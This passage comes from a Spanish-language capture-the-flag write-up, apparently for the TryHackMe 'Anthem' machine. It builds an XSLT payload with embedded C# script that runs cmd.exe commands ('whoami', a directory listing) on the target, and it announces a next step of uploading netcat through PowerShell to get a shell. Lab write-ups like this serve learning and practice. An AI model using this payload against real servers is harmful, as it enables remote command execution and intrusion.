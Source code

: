 Ahora si, el payload quedaria:

```py
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \\
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \\
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \\
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\\
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = "whoami";\\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \\
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \\
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\\
 </xsl:template> </xsl:stylesheet> ';
```

* [How works **startInfo.FileName** and **startInfo.Arguments**](https://stackoverflow.com/questions/7160187/standardoutput-readtoend-hangs).

En la respuesta tenemos:

```bash
nada u.u
```

Básicamente buscando en internet, tenemos que debemos agregarlo algo a la cadena, el tema es que ejecuta `cmd.exe`, pero se queda con la consola abierta y nunca veremos el output.

En `Stack Overflow` alguien agrego que usar `/c` al inicio de la cadena le indica a la consola que debe cerrarse apenas ejecute el comando. Probémoslo:

* [How to pass mult args in **proc.StartInfo**](https://stackoverflow.com/questions/15061854/how-to-pass-multiple-arguments-in-processstartinfo#answer-15062027).

```bash
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = "/c whoami";\
...
```

Ejecutamos:

![anthem_bash_pyRCE_whoami](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_whoami.png)

Perfecto, ahora que tenemos ejecución de comandos, probemos cositas y veamos como conseguir la shell...

Debemos subir el binario `nc` a la maquina, nos apoyaremos de `PowerShell` para hacerlo:

▸ Listamos el directorio `TEMP`:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c dir ..\..\..\\Windows\\TEMP";\
...
```
